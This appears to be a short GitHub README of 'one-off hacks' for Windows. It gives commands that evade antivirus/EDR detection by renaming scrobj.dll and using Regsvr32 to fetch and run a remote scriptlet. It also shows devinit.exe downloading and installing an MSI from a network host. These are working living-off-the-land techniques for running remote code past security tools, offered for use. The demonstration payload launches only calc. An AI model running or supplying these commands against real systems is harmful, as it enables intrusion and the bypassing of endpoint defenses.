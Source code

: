 # One-off-hacks

### Bypass AV/EDR test found [here](https://www.trustedsec.com/blog/discovering-the-anti-virus-signature-and-bypassing-it/) and here at [twitter](https://twitter.com/mrd0x/status/1461041276514623491?s=20)
Bypass steps:
1. copy and renaming scrobj.dll  
`copy c:\windows\system32\scrobj.dll NothingToSeeHere.dll`
2. Test that functionality now by launching calc via:    
`Regsvr32.exe /u /s /i:https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Regsvr32_calc.sct
NothingToSeeHere.dll`
---
### MS signed tool with tons of useful commands but needs VS to run properly.  Found here in [twitter](https://twitter.com/mrd0x/status/1460815932402679809?s=20)  
1. Here using `msi-install`, it downloads a msi file to `C:\Windows\Installer\` then installs it.  
2. `devinit.exe run -t msi-install -i http://10.0.0.18/out.msi`

